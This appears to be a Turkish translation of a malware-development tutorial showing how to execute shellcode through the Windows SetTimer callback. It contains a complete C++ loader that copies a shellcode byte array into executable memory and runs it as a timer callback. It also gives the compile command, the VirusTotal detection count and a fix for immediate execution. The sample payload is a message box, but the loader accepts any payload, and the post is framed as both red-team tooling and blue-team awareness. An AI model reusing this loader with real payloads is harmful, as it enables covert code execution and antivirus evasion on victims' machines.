 \newpage
\subsection{44. kötü amaçlı yazılım geliştirme tekniği: SetTimerKullanarak shellcode çalıştırma. Basit C++ örneği}

﷽

![trick](./images/98/2023-06-04_13-37.png){width="80%"}      

Bu makale, `SetTimer` fonksiyonu aracılığıyla shellcode çalıştırma konusunda yaptığım kendi araştırmalarımın bir sonucudur.     

### SetTimer

`SetTimer` fonksiyonu, Windows API'nin bir parçasıdır. Belirtilen bir zaman aşımı değeri ile bir zamanlayıcı (`timer`) oluşturmak için kullanılır.       

Temel sözdizimi şu şekildedir:     

```cpp
UINT_PTR SetTimer(
  HWND      hWnd,
  UINT_PTR  nIDEvent,
  UINT      uElapse,
  TIMERPROC lpTimerFunc
);
```

Bu parametrelerin açıklamaları şu şekildedir:    

- `hWnd` : Zamanlayıcı ile ilişkilendirilecek pencerenin tanıtıcısı (handle). Bu pencere, çağıran iş parçacığı (thread) tarafından yönetilmelidir. Eğer `hWnd` değeri `NULL` olarak geçirilirse ve `nIDEvent` mevcut bir zamanlayıcının kimliğiyle eşleşirse, eski zamanlayıcı yeni olanla değiştirilir.     
- `nIDEvent` : Sıfır olmayan bir zamanlayıcı tanımlayıcısı. Eğer hWnd parametresi `NULL` ise ve `nIDEvent` mevcut bir zamanlayıcı ile eşleşmiyorsa, bu değer yok sayılır ve yeni bir zamanlayıcı kimliği oluşturulur. Eğer `hWnd` değeri `NULL` değilse ve belirtilen pencere (`hWnd`) zaten nIDEvent değeriyle bir zamanlayıcıya sahipse, mevcut zamanlayıcı yeni olanla değiştirilir. SetTimer bir zamanlayıcıyı değiştirdiğinde, zamanlayıcı sıfırlanır.     
- `uElapse` : Zaman aşımı değeri (timeout value), milisaniye cinsinden belirtilir.    
- `lpTimerFunc` : Zaman aşımı süresi dolduğunda bildirim gönderecek işlevin adresi. Eğer bu parametre `NULL` olarak ayarlanırsa, sistem uygulama kuyruğuna bir `WM_TIMER` mesajı gönderir. Bu mesaj pencere prosedürü tarafından işlenir.     

### Pratik örnek

Peki, işin püf noktası nedir? Sadece aşağıdaki koda göz atın (`hack.c`):     

```cpp
/*
 * hack.cpp - run shellcode via SetTimer. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;
}
```

Gördüğünüz gibi, bu kod `SetTimer` Windows API işlevini kullanarak shellcode çalıştırmayı amaçlıyor. Bunu, zamanlayıcı süresi dolduğunda çağrılacak bir işlevin (`TIMERPROC`) adresini sağlayarak gerçekleştiriyor.     

Her zamanki gibi, basit olması adına `meow-meow` mesaj kutusu payload'unu kullandım:     

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Haydi, her şeyi çalışırken görelim. "Malware" kodumuzu derleyelim:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![trick](./images/98/2023-06-04_13-38.png){width="80%"}      

Ve bunu kurbanın makinesinde çalıştıralım:     

```powershell
.\hack.exe
```

![trick](./images/98/2023-06-04_13-59.png){width="80%"}      

Gördüğünüz gibi, her şey mükemmel şekilde çalıştı! =^..^=    

Haydi, `hack.exe` dosyasını VirusTotal'a yükleyelim:    

![trick](./images/98/2023-06-04_14-01.png){width="80%"}      

**Yani, 71 antivirüs motorundan 19'u dosyamızı kötü amaçlı olarak algıladı.**      

[https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection](https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection)       

Ancak, bence PoC kodumuzda bir sorun var.     

`SetTimer` fonksiyonu, `uElapse` parametresinin ayarlanmasını gerektirir. Bu parametre, milisaniye cinsinden zaman aşımı süresini temsil eder. Eğer `NULL` veya `0` olarak ayarlanırsa, fonksiyon zamanlayıcıyı çalıştırmaz.Bu yüzden shellcode'u anında yürütmek istiyorsak, `uElapse` değerini `1` olarak ayarlamalıyız. Şöyle bir şey:    

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Set uElapse to 1
while (GetMessageA(&msg, NULL, 0, 0)) {    // Using while loop to keep the 
                                           //message pump running
  DispatchMessageA(&msg);
}
```

Bu kod, neredeyse anında sona eren bir zamanlayıcı oluşturacak ve callback fonksiyonu olarak shellcode'u çalıştıracaktır.Tabii ki, bu tür bir teknik zamanlayıcı geri çağrısı (callback) üzerinden kod çalıştırma anomali davranışı nedeniyle antivirüs yazılımları tarafından kötü amaçlı olarak tespit edilebilir.    

Şimdiye kadar bu tekniği gerçek dünyadaki kötü amaçlı yazılımlarda veya APT saldırılarında görmedim.Umarım bu gönderi, mavi takım üyelerinin farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine yeni bir teknik ekler.      

[SetTimer](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-settimer)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)        
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2023-06-04-malware-tricks-31)           
